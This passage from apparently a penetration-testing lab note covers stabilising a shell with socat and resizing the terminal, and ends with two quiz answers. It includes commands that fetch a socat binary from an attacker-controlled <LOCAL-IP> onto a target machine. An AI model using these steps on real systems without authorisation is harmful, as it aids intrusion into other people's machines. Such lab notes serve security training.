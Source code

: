 1. **socat**<br>
    Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. Here are the steps:
    - Transfer the [socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) to the taget machine.
        - Step 1: Using a webserver
        ```bash
        $ sudo python3 -m http.server 80
        ```
        - Step 2: Download the shell with `curl` or `wget`
        ```bash
        $ wget <LOCAL-IP>/socat -O /tmp/socat
        $ curl <LOCAL-IP>/socat > /tmp/socat
        ```
        - For Windows
        ```powershell
        Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
        ```

    - Execute!

With any of the above techniques, it's useful to be able to change your terminal tty size.
- Open another terminal and run `stty -a`.
```bash
$ stty -a                                                                                              127 ⨯
speed 38400 baud; rows 27; columns 111; line = 0;
intr = ^C; quit = ^\; erase = ^H; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>;
start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl -ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```
- Next, in your reverse / bind shell, type in:
```bash
$ stty rows <number>
$ sttty cols <number>
```
This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

#### How would you change your terminal size to have 238 columns?
```bash
$ stty cols 238
```

#### What is the syntax for setting up a Python3 webserver on port 80?
```bash
$ sudo python3 -m http.server 80
```
